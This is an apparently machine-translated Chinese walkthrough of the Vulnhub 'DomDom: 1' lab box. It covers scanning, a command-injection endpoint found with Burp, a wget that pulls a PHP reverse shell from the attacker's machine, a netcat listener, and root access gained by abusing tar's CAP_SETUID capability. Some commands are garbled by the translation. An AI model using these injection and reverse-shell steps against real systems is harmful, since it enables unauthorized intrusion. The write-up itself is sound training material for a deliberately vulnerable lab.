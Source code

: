 # DomDom: 1 漫游| Vulnhub

> 原文：<https://infosecwriteups.com/domdom-1-walkthrough-vulnhub-eee2378702f4?source=collection_archive---------2----------------------->

![](img/fad0732c3c1f6d31cc72d23af8047c0e.png)

朋友们，你们好，我是迪尼杜·贾亚辛格，这是我的第四篇文章。本文是对 **DomDom: 1 Vunhub box** 的演练。这个盒子也是一个引导到根的初级挑战。你可以在这里找到这个来自[的 Vulnhub 盒子。](https://www.vulnhub.com/entry/domdom-1,328/)

# 方法学

*   网络扫描
    👉识别正在运行的服务&开放端口( **Nmap** )
*   枚举/侦察
    👉网页目录( **DIRB** )
    👉易受 RCE ( **打嗝组曲**)攻击
*   漏洞利用
    👉上传后门( **PHP 反向外壳** )
    👉Spawn shell ( **Netcat 会话**)
*   权限提升
    👉滥用能力权限

# 游戏攻略

## 网络扫描

📌️在扫描的第一步，我使用了 arp-scan -l 命令来执行本地网络扫描，以找出目标机器的 IP 地址。

> 命令: **arp-scan -l**

![](img/ac99ad8ed93d427f84f3b9ac2113760a.png)

📌️在得到目标机器的 IP 地址后，我对我的目标进行了一次 Nmap 扫描。我用过，
👉 **-sV** :至应用版本扫描
👉 **-A** :至操作系统检测、脚本扫描、跟踪路由(主动扫描)

> 命令:**nmap-sV-A-T4-p-192 . 168 . 56 . 110**

![](img/d67ca3ed81863d6a31dca8a2b3ab7e44.png)

📌️从这个 Nmap 扫描中，我发现那里的 **tcp 80 端口**是打开的。这意味着我们可以在浏览器上浏览这个 IP。在这个页面中向我们展示了一些登录界面。

![](img/aef10bc6acbe40f488fe38d4cfa0b353.png)

## 查点/侦察

📌️:在这一部分，我使用 dirbuster 工具来列举这个目标的有趣的子域。

> 命令:**dirb http://192 . 168 . 56 . 110**

![](img/6df9608dde55df03d448c922c5318998.png)

📌️:我发现了一个有趣的东西，那就是

**![](img/14403f3f5157ac208557728988b7604a.png)**

**📌️:所以现在我探索 http://192 . 168 . 56 . 110 并在我的 BurpSuit 中打开拦截来捕获 http 请求。**

**![](img/a3386ff379607fa5095621e5917fb390.png)**

**📌然后，️将截获的数据发送到中继器，以识别正在执行的操作。现在将 POST 请求从 **/index.php** 更改为 **/admin.php** 以标识该动作。**

> **改:POST/**admin.php**HTTP/1.1**

**![](img/f0780a10ac5a86215a6a74f1ad497346.png)**

**📌️酷！！我们发现了一个内置的脚本，它从命令的响应中执行命令。**

**📌️为了确保我们有后端功能，我们尝试发出执行“id”命令的请求，并获得预期的结果。**

> **name = admin & username = admin & password = admin & access = access &**cmd = id****

**![](img/367dd41fa44f089313695cd964fc9857.png)**

**📌️:所以我找到了恶意代码可以被执行的方式，或者将恶意文件注入到反向连接机器的主机中。**

**📌为此，我从 Pentestmonkey 获得了 **php-reverse-shell** 。我改变了外壳代码的 IP 地址和端口。**

**![](img/c8a9b9b62a1df28fc7acc61a7c16175c.png)**

## **剥削**

**📌️So:现在我立即创建了一个 web 服务器，通过浏览器立即为那个 **php-reverse-shell** 文件提供服务，而不用安装任何 web 服务器。**

> **命令: **python -m SimpleHTTPServer****

**![](img/8edcfa2cee6c42b73dd3dd6b1cbef8f6.png)**

**📌️Now 使用 BurpSuite 从我的 Kali box 下载这个 **php-reverse-shell** 到目标机器。**

> ****cmd = wget http://192 . 168 . 56 . 105/PHP-reverse-shell . PHP****

**![](img/10eaff80377f7db25753f30f4c532bf2.png)****![](img/de26ca87f8fc28065d7661c58da2e512.png)**

**📌️在下载了那个 **php-reverse-shell** 文件后我更改了那个文件的权限。(我将这三个权限都给了所有用户)**

> ****cmd = chmod 777 php-reverse-shell.php****

**![](img/88ed26def17417769950949e5aed1f08.png)**

**📌️更改后，我打开我的 kali 终端，使用 **Netcat 工具**监听端口 **4545****

**![](img/a72e06886ae5b93fed749686c3af0dd0.png)**

**📌️之后，我使用 BurpSuit 运行上面的 **php-reverse-shell** 文件。**

> ****cmd = PHP PHP-reverse-shell****

**📌️哇！！现在我得到了这个目标机器的远程外壳。**

**![](img/b1b38f6207adbb90000a4aa3765d5163.png)**

## **权限提升**

**📌️现在我打开了**巨蟒产卵的外壳。****

> **命令: **python3 -c '导入 ptypty.spawn("/bin/bash")'****

**![](img/3a19585e0bbb11880b986795f370c59c.png)**

**📌️在进一步的探索中， **README.md** 被从 root-owned 里面找到了 **/domom/home/desktop。****

**![](img/6e8e7063f656225369db23cd2db3ff86.png)****![](img/ac67bee71e348b6681903ed878c3b3e3.png)**

**📌️:在这一点上，我想我可以使用 **getcap** 来识别二进制功能文件并看到成功的结果。**

> **命令:**getcap-r/2>/dev/null****

**![](img/c804ceae580e50510c89416e994498a1.png)**

**📌️正如我们在本线程前面的图片中看到的， **"/bin/tar"** 具有压缩文件的功能。这可以修改它的进程 UID，并作为后门与 Linux 一起使用，以保留具有能力集 **CAP_SETUID** 的高特权，所以我执行以下命令来生成。 **tar README.md** 在 **/tmp** 目录下。**

> **命令: **/tmp**
> 命令:**tar-CVF readme.tar/home/domom/Desktop/readme . MD****

**![](img/f0babb5be85aed018b3a845720d0d273.png)**

**📌当你执行上面的命令时，️ It 会在 **/tmp** 目录下生成一个**readme.tar**文件，可以提取出来进一步读取 **README.md** 文件。**

> **命令:**tar-xvf readme.tar**
> 命令:**cat/home/domom/Desktop/readme . MD****

**![](img/3255cc2fed61b4614f68c099c6c906c2.png)**

**📌️酷！！我从这个文件中获得了“ **root** 的密码。现在我使用这个密码切换到 root 帐户。**

> **命令:**苏根****

**![](img/301228192cf0f16890789a737847010e.png)**

**太棒了，现在我在**根**上了。所以我想你大概知道我在这个盒子里用的是什么机制，以及我们能从中做些什么。**

**有我写的博客。如果你对这些话题感兴趣，你可以通过超链接阅读。**

****✅** [**不同类型的恶意软件和其他攻击**](/analyzing-malware-and-other-attacks-57567fd7f77b?source=friends_link&sk=12af6b24868f0441227290c34441ecc8) **✅** [**比较不同类型的社会工程技术**](/comparing-different-types-of-social-engineering-techniques-477336207f70?source=friends_link&sk=fe448ec0c39467bbcedcf4ac70eb2195) **✅**[**cold box:easy【vulnhub】预排**](/colddbox-easy-vulnhub-walkthrough-cac3680e03c2?source=friends_link&sk=a9443dbe0162ab4aa5307e94a6e78d5f) **✅**[**基础预排:1 预排| Vulnhub**](/basic-pentesting-1-walkthrough-vulnhub-4dac91b416ff?source=friends_link&sk=cdf388e2e9c80f9f32e149230f94db77)**

# **让我们来看看另一篇文章。下次见，再见🙌祝你黑客生涯愉快😈😈。**